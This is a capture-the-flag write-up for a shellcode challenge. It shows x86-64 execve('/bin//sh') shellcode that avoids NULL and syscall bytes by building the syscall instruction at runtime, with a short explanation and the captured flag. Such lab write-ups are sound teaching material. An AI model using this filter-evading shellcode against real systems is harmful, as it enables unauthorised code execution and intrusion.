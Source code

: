 # shellc0de
## Description
> copy from [edu-ctf](https://edu-ctf.csie.org/problems/1)
>
> flag is same
>
> 但 flag 在你連進來的目錄裡 直接 cat 他八 > <
>
> nc sqlab.zongyuan.nctu.me 6004
---
## Writeup
We need to upload shellcode to get shell, but there can't be NULL(\00) and syscall(\x0F\x05).

I used the same shellcode as in `retshell`, but I needed to alter the syscall part. The method is to use 2 added values to become \x0F\x05, push it to stack and let rsp remember the value, then jump back to the register that stores rsp.

```assembly
push rax
xor rdx, rdx
xor rsi, rsi
mov rbx, 0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
xor rcx, rcx
mov cx, 0x40e
add cx, 0x101
push cx
mov r10, rsp
jmp r10
```

Note that if you write cs as rcs it will cause null bytes(as shown below).

![null](null.jpg)

This is because rcx is a 64-bit register, it will add 0 automatically to make up the length. cx is lower 16 bits, so it can store 0e04 or 0101 without creating NULL bytes.

![flag](flag.jpg)

flag : FLAG{5hellc0d1ng_f0r_5yscal1_:p}